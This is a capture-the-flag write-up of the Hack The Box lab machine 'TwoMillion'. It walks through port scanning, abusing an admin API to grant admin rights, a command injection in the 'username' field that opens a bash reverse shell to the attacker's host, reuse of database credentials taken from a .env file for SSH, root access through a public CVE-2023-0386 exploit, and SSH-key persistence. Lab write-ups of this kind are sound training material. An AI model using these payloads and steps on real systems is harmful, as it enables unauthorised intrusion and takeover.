






+++
title = "TwoMillion"
date = "2024-03-09"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2023-06-07

**Created by**: [TRX](https://app.hackthebox.com/users/31190) & [TheCyberGeek](https://app.hackthebox.com/users/114053)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.4`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.11.221`

## Scanning

### Ports

As usual, let's start by initiating a port scan on TwoMillion using a TCP SYN
`nmap` scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.11.221" -p-
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.11.221" --top-ports "500"
```

```
<SNIP>
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.11.221" -p "22,80" -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Let's do the same for the UDP port.

```sh
❯ nmap -sU "10.10.11.221" -p "68" -sV
```

```
<SNIP>
PORT   STATE         SERVICE VERSION
68/udp open|filtered dhcpc
<SNIP>
```

Alright, so `nmap` managed to determine that TwoMillion is running Linux, and
the version of SSH suggests that it might be Ubuntu.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.11.221" -p "22,80" -sC
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http
|_http-title: Did not follow redirect to http://2million.htb/
<SNIP>
```

Let's also run them on the UDP service.

```sh
❯ nmap -sU "10.10.11.221" -p "68" -sC
```

```
<SNIP>
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
<SNIP>
```

The `http-title` script indicates that the Nginx server redirects to
`http://2million.htb/`. I'll add it to my `/etc/hosts` file.

```sh
❯ echo "10.10.11.221 2million.htb" >> "/etc/hosts"
```

## Services enumeration

### Nginx

#### Exploration

Let's browse to `http://2million.htb/`.



It looks like an old version of HTB's website.

The footer indicates that it's a version from 2017, but I didn't know HTB back
then so I can't be sure.

#### Fingerprinting

Let's fingerprint the technologies used by this website with the
[Wappalyzer](https://www.wappalyzer.com/) extension.



This reveals that this website is using PHP.

#### Exploration

The FAQ section of the homepage indicates that to join HTB, we have to hack the
invite process. We're given a link to `/invite`:



I tried to enter a random one, but I got the message 'Invalid invite code.
Please try again.'.

#### Under the hood

When press the 'Sign up' button, a POST request is sent to
`/api/v1/invite/verify` with the data:

```html
code=<CODE>
```

If we enter an invalid code, the response data is:

```json
{
    "0":400,
    "success":0,
    "error":{
        "message":"Invite code is invalid!"
    }
}
```

#### Source code review

If we check the source code of the web page, we find a link to
`/inviteapi.min.js`.

This is a JavaScript file minified and obfuscated using `eval`.

We can use [de4js](https://lelinhtinh.github.io/de4js/) to deobfuscate it.
Here's the result:

```js
function verifyInviteCode(code) {
    var formData = {
        code: code,
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: "/api/v1/invite/verify",
        success: function (response) {
            console.log(response);
        },
        error: function (response) {
            console.log(response);
        },
    });
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: "/api/v1/invite/how/to/generate",
        success: function (response) {
            console.log(response);
        },
        error: function (response) {
            console.log(response);
        },
    });
}
```

The `verifyInviteCode` function sends an AJAX request to
`/api/v1/invite/verify`, which corresponds to the normal behavior of the web
page when we press the 'Sign up' button.

The `makeInviteCode` function is intriguing though, since it sends an AJAX
request to `/api/v1/invite/how/to/generate`...

Let's send a POST request to this endpoint and see the result.

```sh
❯ curl -s "http://2million.htb/api/v1/invite/how/to/generate" -X "POST" | jq "." --indent "4"
```

```json
{
    "0":200,
    "success":1,
    "data":{
        "data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
        "enctype":"ROT13"
    },
    "hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

We receive JSON data, presumably encrypted with the ROT13 algorithm.

Let's decrypt it:

```sh
❯ echo "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr" | tr "[A-Za-z]" "[N-ZA-Mn-za-m]"
```

```
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

So we can generate our own invite code by sending a POST request to
`/api/v1/invite/generate`! Let's do it.

```sh
❯ curl -s "http://2million.htb/api/v1/invite/generate" -X "POST" | jq "." --indent "4"
```

```json
{
    "0":200,
    "success":1,
    "data":{
        "code":"M1M2MUUtN1k1SEQtM1VDOFotSjJCTUU=",
        "format":"encoded"
    }
}
```

Once again, we receive JSON data. The `format` is set to `encoded`, and the
invite code looks like a Base64 value, so let's decode it using this algorithm:

```sh
❯ echo "M1M2MUUtN1k1SEQtM1VDOFotSjJCTUU=" | base64 -d
```

```
3S61E-7Y5HD-3UC8Z-J2BME
```

Nice!

#### Exploration

Let's browse to `http://2million.htb/invite`, and enter the invite code we just
generated.



Now we have the possibility of signing up.

I'll create a fake account with the username `dummy`, and then I'll log in.


Now that we're authenticated, we have access to the core of the website.

We notice a message indicating that HTB is performing database migrations,
therefore some website's features will be unavailable.

Indeed, most of the functionalities of the website are not working. We can also
access the `/rules`, `/changelog` and `/access` web pages:



We can download or regenerate our VPN keys. I tried them, but they don't work.

#### Under the hood

When we ask to download our VPN keys, a GET request is sent to
`/api/v1/user/vpn/generate`. When we ask to regenerate them, a GET request is
sent to `/api/v1/user/vpn/regenerate`.

The `/api` path acts as a public RESTful API. Let's interrogate it directly with
our authorized session:

```sh
❯ curl -s -H "Cookie: PHPSESSID=ifodie5ofjjrn2j18bn5mbcsd8" "http://2million.htb/api" | jq "." --indent "4"
```

```json
{
    "/api/v1": "Version 1 of the API"
}
```

There's only a version 1 of the API.

```sh
❯ curl -s -H "Cookie: PHPSESSID=ifodie5ofjjrn2j18bn5mbcsd8" "http://2million.htb/api/v1" | jq "." --indent "4"
```

```json
{
    "v1": {
        "user": {
            "GET": {
                "/api/v1": "Route List",
                "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
                "/api/v1/invite/generate": "Generate invite code",
                "/api/v1/invite/verify": "Verify invite code",
                "/api/v1/user/auth": "Check if user is authenticated",
                "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
                "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
                "/api/v1/user/vpn/download": "Download OVPN file"
            },
            "POST": {
                "/api/v1/user/register": "Register a new user",
                "/api/v1/user/login": "Login with existing user"
            }
        },
        "admin": {
            "GET": {
                "/api/v1/admin/auth": "Check if user is admin"
            },
            "POST": {
                "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
            },
            "PUT": {
                "/api/v1/admin/settings/update": "Update user settings"
            }
        }
    }
}
```

This API exposes an `admin` section containing interesting endpoints.

Let's start by sending a GET request to `/api/v1/admin/auth`:

```sh
❯ curl -s -H "Cookie: PHPSESSID=ifodie5ofjjrn2j18bn5mbcsd8" "http://2million.htb/api/v1/admin/auth" | jq "." --indent "4"
```

```json
{
    "message": false
}
```

Predictably, the response indicates that we're not an administrator.

To address this issue, let's modify our settings by sending a PUT request to the
`/api/v1/admin/settings/update` endpoint:

```sh
❯ curl -s -H "Cookie: PHPSESSID=ifodie5ofjjrn2j18bn5mbcsd8" "http://2million.htb/api/v1/admin/settings/update" -X "PUT" | jq "." --indent "4"
```

```json
{
    "status": "danger",
    "message": "Invalid content type."
}
```

We didn't send the correct content type. I'll assume that it's JSON then!

```sh
❯ curl -s -H "Content-Type: application/json" -H "Cookie: PHPSESSID=ifodie5ofjjrn2j18bn5mbcsd8" "http://2million.htb/api/v1/admin/settings/update" -X "PUT" | jq "." --indent "4"
```

```json
{
    "status": "danger",
    "message": "Missing parameter: email"
}
```

It needs an `email` parameter. I'll add one:

```sh
❯ curl -s -H "Content-Type: application/json" -H "Cookie: PHPSESSID=ifodie5ofjjrn2j18bn5mbcsd8" "http://2million.htb/api/v1/admin/settings/update" -X "PUT" -d '{"email":"dummy@email.htb"}' | jq "." --indent "4"
```

```json
{
    "status": "danger",
    "message": "Missing parameter: is_admin"
}
```

It also needs an `is_admin` parameter. I'll set this to `1`:

```sh
❯ curl -s -H "Content-Type: application/json" -H "Cookie: PHPSESSID=ifodie5ofjjrn2j18bn5mbcsd8" "http://2million.htb/api/v1/admin/settings/update" -X "PUT" -d '{"email":"dummy@email.htb","is_admin":1}' | jq "." --indent "4"
```

```json
{
    "id": 13,
    "username": "dummy",
    "is_admin": 1
}
```

It probably worked. Let's confirm this by sending a GET request to
`/api/v1/admin/auth` once again:

```sh
❯ curl -s -H "Cookie: PHPSESSID=ifodie5ofjjrn2j18bn5mbcsd8" "http://2million.htb/api/v1/admin/auth" | jq "." --indent "4"
```

```json
{
    "message": true
}
```

Nice!

The only endpoint I didn't explore yet is `/api/v1/admin/vpn/generate`.

This endpoint requires JSON data with a `username` parameter. It simply
generates a new OVPN file, similar to the one we could download on the `/access`
page.

#### OS command injection

The `/api/v1/admin/vpn/generate` endpoint is likely using a Bash command with the
`username` value we specify to generate OVPN files. This means that we may be
able to execute our own commands by specifying them as a JSON `username`
parameter value.

If we send a request with `sleep 10` as the command, there's a 10 seconds delay
before we receive the response, so our OS command injection must have worked!

## Foothold (RCE)

Since the website uses Bash to dynamically generate OVPN files based on
user-controllable input, and it fails to properly sanitize the `username`
parameter, we can craft a payload to obtain RCE.

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

I'll save it as the `BASE64_REVSHELL_PAYLOAD` shell variable.

### Exploitation

Let's send a request to TwoMillion to execute our payload.

```sh
❯ curl -s -o "/dev/null" -H "Content-Type: application/json" -H "Cookie: PHPSESSID=ifodie5ofjjrn2j18bn5mbcsd8" "http://2million.htb/api/v1/admin/vpn/generate" -X "POST" -d '{"username":";/bin/echo '$BASE64_REVSHELL_PAYLOAD' | /usr/bin/base64 -d | /bin/bash -i;"}'
```

If we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.221] 38840
<SNIP>
www-data@2million:~/html$
```

It caught the reverse shell!

### Spawning a tty

Let's use this one-liner to spawn a tty:

```sh
/usr/bin/script "/dev/null" -qc "/bin/bash"
```

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `www-data`.

### Architecture

What is TwoMillion's architecture?

```sh
www-data@2million:~/html$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution TwoMillion is using.

```sh
www-data@2million:~/html$ cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=22.04
DISTRIB_CODENAME=jammy
DISTRIB_DESCRIPTION="Ubuntu 22.04.2 LTS"
```

Okay, so it's Ubuntu 22.04.

### Kernel

Let's find the kernel version of TwoMillion.

```sh
www-data@2million:~/html$ uname -r
```

```
5.15.70-051570-generic
```

It's `5.15.70`.

### Users

Let's enumerate all users.

```sh
www-data@2million:~/html$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
admin
root
www-data
```

There's `admin`, `root` and `www-data` (us).

### Groups

Let's enumerate all groups.

```sh
www-data@2million:~/html$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
_laurel
_ssh
adm
admin
audio
backup
bin
cdrom
crontab
daemon
dialout
dip
disk
fax
floppy
fwupd-refresh
games
gnats
input
irc
kmem
kvm
landscape
list
lp
lxd
mail
man
memcache
messagebus
mysql
netdev
news
nogroup
operator
plugdev
proxy
render
root
sasl
sgx
shadow
src
staff
sudo
sys
syslog
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tcpdump
tss
tty
users
utmp
uucp
uuidd
video
voice
www-data
```

The `lxd` group is interesting to elevate privileges.

### NICs

Let's gather the list of connected NICs.

```sh
www-data@2million:~/html$ ifconfig
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.221  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 fe80::250:56ff:feb9:a846  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb9:a846  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:a8:46  txqueuelen 1000  (Ethernet)
        RX packets 465  bytes 47386 (47.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 818  bytes 233248 (233.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1091  bytes 82628 (82.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1091  bytes 82628 (82.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is TwoMillion's hostname?

```sh
www-data@2million:~/html$ hostname
```

```
2million
```

Yeah I know, very surprising.

## System enumeration

### Website code review

Let's review the content of the Nginx website, located at `/var/www/html`.

This web application follows a MVC design pattern.

```php
<?php

class Database 
{
    private $host;
    private $user;
    private $pass;
    private $dbName;

    private static $database = null;
    
    private $mysql;

    public function __construct($host, $user, $pass, $dbName)
    {
        $this->host     = $host;
        $this->user     = $user;
        $this->pass     = $pass;
        $this->dbName   = $dbName;

        self::$database = $this;
    }

    public static function getDatabase(): Database
    {
        return self::$database;
    }

    public function connect()
    {
        $this->mysql = new mysqli($this->host, $this->user, $this->pass, $this->dbName);
    }

    public function query($query, $params = [], $return = true)
    {
        $types = "";
        $finalParams = [];

        foreach ($params as $key => $value)
        {
            $types .= str_repeat($key, count($value));
            $finalParams = array_merge($finalParams, $value);
        }

        $stmt = $this->mysql->prepare($query);
        $stmt->bind_param($types, ...$finalParams);

        if (!$stmt->execute())
        {
            return false;
        }

        if (!$return)
        {
            return true;
        }

        return $stmt->get_result() ?? false;
    }
}
```

The `Database.php` file defines a `Database` class responsible for connecting to
and querying a MySQL database. The class maintains private attributes for
database connection parameters. It implements a singleton pattern to ensure only
one instance of the database connection exists throughout the application.

```php
<SNIP>
$dbHost = $envVariables['DB_HOST'];
$dbName = $envVariables['DB_DATABASE'];
$dbUser = $envVariables['DB_USERNAME'];
$dbPass = $envVariables['DB_PASSWORD'];


$database = new Database($dbHost, $dbUser, $dbPass, $dbName);
$database->connect();
<SNIP>
```

The `index.php` file retrieves database connection parameters from an array
containing environment variables, and then creates a new instance of the
`Database` class with these parameters.

```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

The `.env` file contains the environment variables in question. This application
is using the credentials `admin`:`SuperDuperPass123` to connect to the
`htb_prod` MySQL database running locally!

## Services enumeration

### MariaDB

Let's connect to the MariaDB server running locally using the credentials we just
found:

```sh
www-data@2million:~/html$ mysql -u "admin" -p"SuperDuperPass123"
```

```
MariaDB [(none)]>
```

#### Version

Let's find out the version of MariaDB in use.

```sh
MariaDB [(none)]> SELECT @@version;
```

```
+----------------------------------+
| @@version                        |
+----------------------------------+
| 10.6.12-MariaDB-0ubuntu0.22.04.1 |
+----------------------------------+
<SNIP>
```

So it's MariaDB version `5.10.6.12`.

#### Databases

Now, let's see which databases are available.

```sh
MariaDB [(none)]> SHOW databases;
```

```
+--------------------+
| Database           |
+--------------------+
| htb_prod           |
| information_schema |
+--------------------+
<SNIP>
```

The `htb_prod` database is the probably the most interesting (it's also the one
used by the website).

#### `htb_prod`'s tables

Let's see which tables are included in this database.

```sh
MariaDB [htb_prod]> SHOW tables;
```

```
+--------------------+
| Tables_in_htb_prod |
+--------------------+
| invite_codes       |
| users              |
+--------------------+
<SNIP>
```

The `users` table is promising.

#### `users`'s columns

Let's continue our enumeration of this database by checking the content of the
`users` table.

```sh
MariaDB [htb_prod]> SELECT column_type, column_name FROM information_schema.columns WHERE table_name = 'users';
```

```
+--------------+-------------+
| column_type  | column_name |
+--------------+-------------+
| int(11)      | id          |
| varchar(255) | username    |
| varchar(255) | email       |
| varchar(255) | password    |
| tinyint(1)   | is_admin    |
+--------------+-------------+
<SNIP>
```

Okay, so this table contains 5 columns.

#### `users`'s columns content

Let's retrieve the content of the `username` and `password` columns.

```sh
MariaDB [htb_prod]> SELECT username, password, is_admin FROM users;
```

```
+--------------+--------------------------------------------------------------+----------+
| username     | password                                                     | is_admin |
+--------------+--------------------------------------------------------------+----------+
| TRX          | $2y$10$TG6oZ3ow5UZhLlw7MDME5um7j/7Cw1o6BhY8RhHMnrr2ObU3loEMq |        1 |
| TheCyberGeek | $2y$10$wATidKUukcOeJRaBpYtOyekSpwkKghaNYr5pjsomZUKAd0wbzw4QK |        1 |
| dummy        | $2y$10$g7nHIPhldzaaYxRMC8oJc.GYCrUpw59Ke0leyPtzKkFHP9GnJgEE. |        1 |
+--------------+--------------------------------------------------------------+----------+
<SNIP>
```

We find three hashes: one for `TRX`, one for `TheCyberGeek` and one for `dummy`
(the account I created).

I won't try to crack these hashes yet though. We got credentials for `admin`,
and it turns out that there's a user named `admin` on this machine. Maybe he
reused his credentials?

## Lateral movement (SSH)

Let's try the credentials `admin`:`SuperDuperPass123` to connect to TwoMillion
over SSH.

```sh
❯ ssh "admin@10.10.11.221"
```

```
The authenticity of host '10.10.11.221 (10.10.11.221)' can't be established.
<SNIP>
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
<SNIP>
admin@10.10.11.221's password:
<SNIP>
admin@2million:~$
```

Nice!

## System enumeration

### Flags

If we check our home folder, we find the user flag.

```sh
admin@2million:~$ cat "/home/admin/user.txt"
```

```
fc971cca8312b498677d0fae3e123052
```

### Inspecting `/var/spool/mail/admin`

If we check our mailbox, we find one message.

```
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

An administrator asks us to update the OS of the web host, since a few serious
Linux kernel vulnerabilities were discovered. He mentions a vulnerability about
OverlayFS and FUSE... after a bit of research, it could correspond to the
[CVE-2023-0386](https://nvd.nist.gov/vuln/detail/CVE-2023-0386).

## Privilege escalation ([CVE-2023-0386](https://nvd.nist.gov/vuln/detail/CVE-2023-0386))

[CVE-2023-0386](https://nvd.nist.gov/vuln/detail/CVE-2023-0386) is a privilege
escalation vulnerability affecting some Linux kernel versions. The
vulnerabilities stems from a lack of validation in the overlay filesystem: when
the kernel copies a file from the overlay filesystem to the "upper" directory,
it keeps the permissions of the file and the SUID bit. This allows an attacker
to execute any binary as `root` by using FUSE to change the permissions of this
binary.

You can read more about it on
[Datadog Security Labs](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/).

### Checks

It's hard to tell if the system is vulnerable to this CVE, since the
[Ubuntu page](https://ubuntu.com/security/CVE-2023-0386) is hard to read. I'll
assume that it is.

### Preparation

The goal is to obtain an elevated shell.

I'll use [this PoC](https://github.com/xkaneiki/CVE-2023-0386) by
[xkaneiki](https://github.com/xkaneiki). The README is rather sparse and written
in chinese, but it'll do.

Let's transfer the PoC to TwoMillion, and then let's build it:

```sh
admin@2million:/tmp$ make "all"
```

We get a bunch of warnings, but we can ignore then.

### Exploitation

Let's follow the PoC instructions by running this command:

```sh
admin@2million:/tmp$ ./fuse ./ovlcap/lower ./gc
```

```
[+] len of gc: 0x3ee0
```

Then I'll open another SSH session, and I'll run this command:

```sh
admin@2million:/tmp$ ./exp
```

```
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Mar  9 13:04 .
drwxrwxr-x 6 root   root     4096 Mar  9 13:04 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```

Now let's get a shell by executing the `/bin/bash` binary with `sudo`:

```sh
admin@2million:/tmp$ sudo "/bin/bash -i"
```

```
root@2million:/tmp#
```

Yay!

### Establishing persistence

Let's use SSH to establish persistence.

Our home folder contains a `.ssh` folder. There's no existing private key, so
I'll create one, and I'll add the corresponding public key to `authorized_keys`.
Finally, I'll connect over SSH to TwoMillion as `root`.

## System enumeration

